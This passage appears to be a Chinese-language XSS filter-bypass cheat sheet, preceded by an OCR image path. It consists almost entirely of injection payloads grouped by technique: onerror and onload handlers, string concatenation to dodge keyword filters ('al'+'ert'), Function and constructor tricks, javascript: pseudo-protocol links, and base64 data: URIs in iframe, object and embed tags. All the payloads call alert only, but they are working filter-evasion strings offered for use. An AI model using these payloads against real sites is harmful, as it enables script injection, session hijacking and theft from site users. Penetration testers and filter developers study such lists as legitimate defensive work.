 函数配合拼接
```
<video/src/onerror=top.alert(1);>
<video/src/onerror=top[`al`+`ert`](1);>
<video/src/onerror=self[`al`+`ert`](1);>
<video/src/onerror=parent[`al`+`ert`](1);>
<video/src/onerror=window[`al`+`ert`](1);>
<video/src/onerror=frames[`al`+`ert`](1);>
<video/src/onerror=content[`al`+`ert`](1);>
<body/onload=eval(alert(1));>
<body/onload=eval(`al`+`ert(1)`);>
<body/onload=open(alert(1));>
<body/onload=document.write(alert(1));>
<body/onload=setTimeout(alert(1));>
<body/onload=setInterval(alert(1));>
<body/onload=Set.constructor(alert(1))()>
<body/onload=Map.constructor(alert(1))()>
<body/onload=Array.constructor(alert(1))()>
<body/onload=WeakSet.constructor(alert(1))()>
<body/onload=constructor.constructor(alert(1))>
<video/src/onerror=[1].map(alert);>
<video/src/onerror=[1].map(eval('al'+'ert'));>
<video/src/onerror=[1].find(alert);>
<video/src/onerror=[1].every(alert);>
<video/src/onerror=[1].filter(alert);>
<video/src/onerror=[1].forEach(alert);>
<video/src/onerror=[1].findIndex(alert);>
```

**赋值和拼接**
```
<img src onerror=_=alert,_(1)>
<img src alt=al lang=ert onerror=top[alt+lang](1)>
<img src onerror=top[a='al',b='ev',b+a]('alert(1)')>
<img src onerror=['ale'+'rt'].map(top['ev'+'al'])[0]['valu'+'eOf']()(1)>
```

**创建匿名函数**
```
<video/src/onerror=Function('ale'+'rt(1)')();>
```

**伪协议**
```
<svg/onload=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<form action=javascript:alert(1)><input type=submit>
<a href=javascript:alert(123);>xss</a>
<iframe src=data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=>
<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=></object>
<embed src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==">
```
